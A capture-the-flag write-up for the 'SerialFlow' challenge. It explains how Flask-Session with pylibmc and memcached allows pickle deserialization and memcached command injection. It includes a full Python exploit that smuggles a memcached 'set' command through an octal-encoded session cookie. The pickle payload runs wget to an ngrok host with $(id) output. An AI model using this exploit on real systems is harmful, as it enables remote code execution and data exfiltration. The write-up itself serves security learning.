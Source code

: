 ## **Description**
SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?
<br></br>

```py
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)
```
The `memcached` is used for caching data 


In `requqirements.txt` we can see it uses `pylibmc==1.6.3` also `Flask-Session==0.4.0`

```txt
Flask==2.2.2
Flask-Session==0.4.0
pylibmc==1.6.3
Werkzeug==2.2.2
```
After reading the sessions.py from `https://github.com/pallets-eco/flask-session/blob/main/src/flask_session/sessions.py`

I found that it use the `cPickle` which is vulnerable to deserialization attack, After a bit of googling about memcached and cPickle i came accross this 
`https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/`

Which i used it as POC.
<br></br>
```py
from requests import *
import re
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a46-80-10-22-106.ngrok-free.app/?c=$(id)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:10 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:10')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
c=generate_exploit()
print(c)
url="http://83.136.255.150:51682/"
r=get(url,cookies={"session":c})
# print(r.text)
```
